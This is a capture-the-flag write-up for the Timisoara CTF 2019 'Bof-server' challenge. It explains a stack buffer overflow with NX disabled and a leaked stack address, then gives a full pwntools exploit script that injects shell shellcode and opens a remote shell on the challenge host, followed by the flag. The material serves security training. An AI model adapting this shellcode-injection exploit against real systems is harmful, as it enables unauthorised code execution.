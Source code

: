 ```yaml
---
title: "Bof-server [100]"
tags: [Timisoara CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
layout: single
classes: wide
--- 
```


**Category:** Binary Exploitation 

> Today kids we learn how to write exploits for super-secure software: bof-server!  
nc 89.38.208.144 11112  
(non-standard flag format)

[Challenge Files](https://github.com/MiloTruck/CTF-Archive/tree/master/Timisoara%20CTF%202019%20Qualification%20Round/Binary%20Exploitation/Bof-server%20%5B100%5D){: .btn .btn--primary}

## Write-up
This is a standard buffer overflow shellcoding challenge. 

As usual, running `checksec` on the binary gives:
```   
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x400000)    
   RWX:      Has RWX segments
```

`checksec` shows the `NX Bit` as disabled, which means shellcode can be executed. After running the binary, we see the following output:  

`Hello! Here is the stack address: 7fffffffdc60, enter your name please:`  

The binary prints out the starting address of the stack, and asks for input. We can use `pwntools` to generate the shellcode to execute shell. The payload contains the following:

1. Shellcode
2. Padding (Overflow the stack until RIP)    
3. Stack address (To jump to our shellcode and execute shell)

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./bof-server",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "89.38.208.144",
    "PORT" : 11112,
}

def exploit(p):
    padding = "\x90"*264
    shellcode = asm(shellcraft.sh())

    ru("stack address: " )
    address = int("0x" + r(12), 16)

    payload = "\x90"*50 
    payload += shellcode
    payload += "\x90"*(264-50-len(shellcode))
    payload += p64(address)
    sla("please: ", payload)
    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{oooverfl0w}wwwWWW